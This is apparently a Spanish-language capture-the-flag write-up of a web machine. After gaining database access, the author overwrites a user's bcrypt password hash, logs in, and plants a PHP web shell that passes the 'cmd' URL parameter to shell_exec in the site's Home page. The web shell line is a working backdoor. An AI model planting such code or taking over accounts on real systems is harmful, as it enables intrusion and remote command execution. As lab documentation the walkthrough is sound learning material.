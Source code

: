 ![[Pasted image 20240405110753.png]]

Ahora que tenemos acceso a la BD comenzamos a navegar en ella, hasta encontrar algo que nos ayude.

![[Pasted image 20240405111724.png]]

Navegando por la pagina, dimos con los datos de un usuario. Si notamos bien, lo que es la contraseña se encuentra cifrada, así que lo primero de todo es identificar el tipo de cifrado que tiene implementado. 

Para ello ocuparemos una técnico "efectiva" para determinar el tipo de cifrado, y es copiar las primeras 4 letras y usar un motor de búsqueda para identificarlo.

![[Pasted image 20240407174744.png]]

En este ejercicio tenemos acceso a la base de datos, y básicamente también los permisos para cambiar la contraseña, así que haremos uso de la herramienta **[devglan](https://www.devglan.com/online-tools/aes-encryption-decryption)**.

Ocuparemos Bcrypt Hashing, ya que según el motor de búsqueda este fue el que mayor coincidencia tuvo.

![[Pasted image 20240407175201.png]]

![[Pasted image 20240407180046.png]]

> [!NOTE] Bcrypt Hashing
> En esta ocasión hicimos uso de otros generadores de Hash, ya que el usado en el ejemplo no funciono. [link](https://bcrypt-generator.com/)

Una vez tenemos el hash generado, vamos a la base de datos y cambiamos la contraseña.

![[Pasted image 20240407180305.png]]

Ahora, ya que hemos cambiado la contraseña, lo único que nos queda es buscar un login para ingresar esos datos. Para ellos nos apoyaremos de la información recolectada de los directorios arriba, y comenzamos a buscar.

![[Pasted image 20240407180532.png]]

Una vez encontramos en login, ingresamos las credenciales, y Listo!!!!.

![[Pasted image 20240407180815.png]]


Ahora naveguemos en la pagina para ver que encontramos.

![[Pasted image 20240407181630.png]]

Lo que haremos, será dejar pre cargado en el home, un RCE, para que cada vez que ingresemos a Home, esta se inicialice, apoyándonos del siguiente comando.

	function onStart()
	{
		$this->page["myVar"] = shell_exec($_GET['cmd']);
	}
